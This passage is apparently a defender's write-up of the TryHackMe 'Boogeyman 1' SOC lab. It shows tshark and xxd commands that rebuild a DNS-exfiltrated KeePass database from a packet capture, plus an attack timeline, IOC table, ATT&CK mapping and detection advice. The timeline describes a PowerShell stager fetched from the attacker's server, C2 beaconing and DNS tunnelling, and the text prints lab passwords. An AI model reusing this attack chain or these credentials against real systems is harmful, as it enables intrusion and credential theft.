

The decoded output contains a Sticky Notes entry with the KeePass master password stored in plaintext: `%p9^3!lL^Mz47E2GaT^y`. This is the credential the attacker needed to open the exfiltrated KeePass database.

### DNS Exfiltration Reconstruction

Extracting all DNS queries referencing the attacker's domain:

```bash
tshark -r capture.pcapng -Y 'dns' -T fields -e dns.qry.name | grep "bpakcaging.xyz"
```



The hex-encoded chunks of the KeePass database are visible as subdomains prepended to `bpakcaging.xyz`. Each query carries 50 characters of hex-encoded file data. Running the full extraction pipeline:

```bash
tshark -r capture.pcapng -Y 'dns' -T fields -e dns.qry.name \
  | grep "\.bpakcaging\.xyz$" \
  | cut -f1 -d '.' \
  | grep -v -e "files" -e "cdn" \
  | uniq \
  | tr -d '\n' > extracted.txt

xxd -r -p extracted.txt > extracted.kdbx
```



The pipeline isolates only the hex-data subdomains by anchoring the grep to lines ending with `.bpakcaging.xyz` (filtering AWS resolver duplicates), strips the domain suffix with `cut`, excludes the `files` and `cdn` subdomains, deduplicates with `uniq` (DNS queries are often repeated), concatenates into a single hex string, and converts to binary via `xxd`.

### KeePass Database Access

Opening the reconstructed database with the recovered master password:

```bash
keepass2 extracted.kdbx
```





The database contains a `Homebanking` group with a `Company Card` entry storing the victim's corporate credit card number. This is the terminal objective of the attack, financial credential theft from a finance department employee.


## Attack Timeline

```
2023-01-13 09:25:26  Phishing email delivered to julianne.westcott@hotmail.com from agriffin@bpakcaging.xyz via Elasticemail relay
2023-01-13 17:34:39  PowerShell Script Block Logging begins on QL-WKSTN-5693 (earliest log entry)
2023-01-13 ~17:34    LNK file executed; stager fetches http://files.bpakcaging.xyz/update via IEX
2023-01-13 ~17:34    C2 beacon established to cdn.bpakcaging.xyz:8080; session ID 8cce49b0-b86459bb-27fe2489
2023-01-13 ~17:34    Host reconnaissance begins: whoami, ps, directory traversal of j.westcott profile
2023-01-13 ~17:14    Seatbelt loaded in-memory from GitHub; sb.exe downloaded from files.bpakcaging.xyz
2023-01-13 ~17:14    sq3.exe downloaded from files.bpakcaging.xyz
2023-01-13 ~17:38    sq3.exe queries plum.sqlite: SELECT * FROM NOTE LIMIT 100 - KeePass master password recovered from Sticky Notes
2023-01-13 ~17:38    protected_data.kdbx read from C:\Users\j.westcott\Documents\
2023-01-13 ~17:38    KeePass database exfiltrated via DNS tunneling to 167.71.211.113 (hex-encoded, nslookup A-record queries)
```


## IOC Summary

| Type | Value | Context |
|---|---|---|
| Email address | agriffin@bpakcaging.xyz | Attacker sender address |
| Email address | julianne.westcott@hotmail.com | Victim recipient address |
| Domain | bpakcaging.xyz | Attacker typosquatted domain |
| Domain | files.bpakcaging.xyz | Payload staging server |
| Domain | cdn.bpakcaging.xyz | C2 server |
| IP address | 167.71.211.113| Attacker-controlled server (payload + DNS exfil receiver) |
| IP address | 159.89.205.40 | C2 server IP |
| IP address | 15.235.99.80 | Sending IP of phishing email |
| URL | http://files.bpakcaging.xyz/update | Initial stager fetch |
| URL | http://files.bpakcaging.xyz/sb.exe | Seatbelt binary download |
| URL | http://files.bpakcaging.xyz/sq3.exe | SQLite binary download |
| File | Invoice.zip | Malicious password-protected attachment |
| File | Invoice_20230103.lnk | LNK payload inside zip |
| File | protected_data.kdbx | Exfiltrated KeePass database |
| File | plum.sqlite | Sticky Notes database accessed by attacker |
| Path | C:\Users\j.westcott\Documents\protected_data.kdbx | Full path of exfiltrated file |
| Path | C:\Users\j.westcott\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite | Full path of Sticky Notes database |
| Hash (session ID) | 8cce49b0-b86459bb-27fe2489 | C2 implant session identifier |
| Password | Invoice2023! | Zip attachment password (included in email body) |
| Password | %p9^3!lL^Mz47E2GaT^y | KeePass master password recovered from Sticky Notes |
| Mail relay | Elasticemail | Third-party relay abused for phishing delivery |
| Tool | Seatbelt | Post-exploitation enumeration (sb.exe) |
| Tool | sq3.exe | Portable SQLite binary used for Sticky Notes database query |


## MITRE ATT&CK Mapping

| Tactic | Technique | ID | Detail |
|---|---|---|---|
| Initial Access | Phishing: Spearphishing Attachment | T1566.001 | LNK file delivered via targeted phishing email |
| Execution | User Execution: Malicious File | T1204.002 | Victim opens LNK disguised as Excel invoice |
| Execution | Command and Scripting Interpreter: PowerShell | T1059.001 | PowerShell stager executed via LNK -enc argument |
| Execution | System Binary Proxy Execution | T1218 | powershell.exe invoked via LNK shortcut |
| Defense Evasion | Obfuscated Files or Information | T1027 | Base64-encoded PowerShell payload in LNK arguments |
| Defense Evasion | Masquerading | T1036 | LNK file spoofed with Excel icon |
| Defense Evasion | Indicator Removal: File Deletion | T1070.004 | Fileless stager - payload executed in memory via IEX |
| Command and Control | Application Layer Protocol: Web Protocols | T1071.001 | C2 over HTTP to cdn.bpakcaging.xyz:8080 |
| Command and Control | Ingress Tool Transfer | T1105 | sb.exe and sq3.exe downloaded from attacker server |
| Discovery | System Information Discovery | T1082 | Seatbelt system enumeration |
| Discovery | File and Directory Discovery | T1083 | Directory traversal of victim's user profile |
| Discovery | Process Discovery | T1057 | ps command via C2 |
| Collection | Data from Local System | T1005 | KeePass database and Sticky Notes database accessed |
| Credential Access | Credentials from Password Stores | T1555 | KeePass database (protected_data.kdbx) targeted |
| Credential Access | Credentials in Files | T1552.001 | KeePass master password stored in Sticky Notes plaintext |
| Exfiltration | Exfiltration Over Alternative Protocol: DNS | T1048.003 | KeePass database exfiltrated via hex-encoded DNS A-record queries |
| Exfiltration | Data Encoding: Non-Standard Encoding | T1132.002 | File contents hex-encoded prior to DNS exfiltration |


## SOC Implications

The investigation demonstrates the value of reading the full artifact set before drawing conclusions. The phishing email alone would have raised suspicion at the domain level, `bpakcaging.xyz` is a typosquat detectable by a simple edit-distance check against known vendor domains, but without the endpoint and network artifacts, the scope of the compromise would remain unclear. Reading all three artifact types together revealed that the attacker achieved not just initial execution but active C2, host enumeration, credential harvesting from Sticky Notes, and successful exfiltration of a KeePass database containing financial credentials. A SOC analyst who closed the ticket at the phishing stage would have missed the entire post-exploitation chain.

The cross-source corroboration between PowerShell logs and PCAP was essential to building escalation-quality evidence. The PowerShell logs documented the intent, every command the attacker issued is recorded in `ScriptBlockText`, but the packet capture provided confirmation of execution and allowed recovery of the actual exfiltrated data. The C2 POST bodies, decoded from decimal ASCII, reproduced the attacker's interactive session verbatim. The DNS exfiltration traffic, when reconstructed, yielded a functional copy of the victim's KeePass database that could be opened with the password recovered from the same packet capture. Neither artifact set alone would have supported the full reconstruction of what the attacker took.

Several detection gaps are worth noting for IR follow-up. DNS traffic to external resolvers carrying hex-encoded subdomain labels of fixed 50-character length is anomalous and detectable with network-layer inspection, a DNS security product or firewall with DNS query logging would have flagged the volume and pattern of outbound queries to `bpakcaging.xyz`. The Python SimpleHTTP server banner in HTTP responses is a reliable detection signal in environments with SSL inspection or HTTP header inspection capabilities. The C2 polling interval of 0.8 seconds produces a beaconing pattern detectable by network behaviour analytics. On the endpoint side, the LNK file executing PowerShell with `-enc` and `-windowstyle hidden` is a high-confidence detection opportunity at the process creation level via Sysmon Event ID 1, no legitimate user action produces this execution pattern from a double-clicked shortcut.

The highest-severity finding is the successful exfiltration of `protected_data.kdbx` and the recovery of its master password. A KeePass database belonging to a finance employee at a logistics company is likely to contain credentials for banking portals, payment systems, and supplier accounts. The attacker demonstrated they accessed the `Company Card` entry, which contained a live corporate credit card number. Immediate response actions should include rotating all credentials stored in that KeePass database, notifying the card issuer for the compromised card, reviewing transaction history for unauthorised charges, and auditing all systems the victim had access to for signs of lateral movement using harvested credentials. The NTLMv2 hash for `j.westcott` captured in the Seatbelt output also represents a credential that may be crackable offline, widening the potential blast radius beyond what is visible in this artifact set alone.

---

*TryHackMe - SOC Level 1 Path - Capstone Challenges - Boogeyman 1*